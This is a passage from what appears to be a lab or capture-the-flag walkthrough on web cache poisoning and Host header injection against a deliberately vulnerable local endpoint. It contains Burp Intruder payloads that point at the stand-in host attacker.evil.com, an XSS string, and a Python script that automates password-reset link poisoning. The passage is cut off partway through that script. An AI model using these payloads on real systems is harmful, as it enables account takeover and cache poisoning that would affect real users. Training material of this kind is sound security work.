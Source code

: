 4. **Send request again to populate cache:**
```http
X-Cache: HIT
```

5. **All subsequent users receive the poisoned response**

**Burp Suite Intruder for Cache Poisoning:**
1. Send request to Intruder
2. Set payload position on Host header:
```http
Host: §attacker.evil.com§
```
3. Payloads:
   - `attacker.evil.com`
   - `evil.com"><script>alert(1)</script>`
   - `localhost:5000@attacker.evil.com`
4. Monitor for successful cache poisoning

#### Step 5: Automated Exploitation Script
**Objective:** Automate the password reset poisoning attack

**Python Script for Host Header Injection:**
```python
import requests
import time

def exploit_host_header_injection(target_email, evil_host):
    url = "http://localhost:5000/api/vuln/host-header-injection"
    
    headers = {
        "Host": evil_host,
        "Content-Type": "application/json"
    }
    
    payload = {
        "email": target_email
    }
    
    print(f"[*] Sending poisoned password reset request...")
    print(f"[*] Target email: {target_email}")
    print(f"[*] Malicious host: {evil_host}")
    
    response = requests.post(url, json=payload, headers=headers)
    
    if response.status_code == 200:
        result = response.json()
        print(f"[+] Success! Reset link poisoned:")
        print(f"[+] {result.get('resetLink')}")
        
        if evil_host in result.get('resetLink', ''):
            print(f"[+] Host header injection successful!")
            print(f"[+] Flag: {result.get('flag')}")
            return True
    
    print(f"[-] Exploitation failed")
    return False

def test_various_injection_methods(target_email):
    test_cases = [
        ("attacker.evil.com", "Basic Host header replacement"),
        ("localhost:5000@attacker.evil.com", "Port-based injection"),
        ("evil.com:80#@localhost:5000", "Fragment injection"),
        ("evil.com%23@localhost:5000", "URL-encoded injection"),
    ]
    
```